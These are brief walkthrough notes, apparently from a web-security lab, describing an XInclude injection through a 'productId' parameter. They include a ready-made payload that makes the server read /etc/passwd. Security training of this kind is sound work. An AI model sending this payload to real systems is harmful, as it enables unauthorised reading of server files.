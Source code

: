 
1. Add one < at `productId` parameter

![](/static/img/Pasted_image_20231119161653.png)

2. Notice you got a error at the response, verify that you cant use normal XXE attacks
3. Add the following payload to the `productId`
`<foo%20xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include%20parse="text"%20href="file:///etc/passwd"/></foo>`

![](/static/img/Pasted_image_20231119161909.png)

![](/static/img/Pasted_image_20231119161928.png)

